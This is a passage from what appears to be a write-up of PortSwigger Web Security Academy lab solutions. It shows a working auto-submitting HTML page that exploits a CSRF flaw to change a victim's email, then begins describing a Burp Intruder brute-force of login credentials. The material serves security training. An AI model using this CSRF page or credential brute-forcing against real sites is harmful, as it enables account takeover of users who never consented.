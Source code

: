 ___

### Lab: CSRF where token validation depends on request method

In this case when we change the email we see the POST request containing a CSRF-token to prevent us from forging a fake request.

![alt](lab16.png)

But if we change the request from POST to GET we can see its working. The defences for CSRF where applied only at POST requests, leaving the website vulnerable.

![alt](lab17.png)

So now we can construct the appropriate HTML file that will submit this request.

```html
<html>
    <body>
        <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="anything%40web-security-academy.net">
        </form>
        <script>
                document.forms[0].submit();
        </script>
    </body>
</html>
```

Enter the payload to PortSwigger server and press "Deliver exploit to victim".

___

## Authentication

### Lab: Username enumeration via different responses

Navigate to the login page, `/login`. Open Burp proxy and inspect the request/response when trying some random credentials.

For example, if we enter `admin:admin` then the request is the following.

![alt](lab18.png)

So we have the parameters `username` and `password`. Let's use the Burp Interuder to bruteforce them. Right click and "Sent to Intruder"

In this lab challenge, we will use the given wordlists from portswigger academy.

First configure the positions of the parameters we want to fuzz and select as Attack type, Cluster Bomb in order to check each word of the username wordlist with each password in the password wordlist. 

![alt](lab19.png)
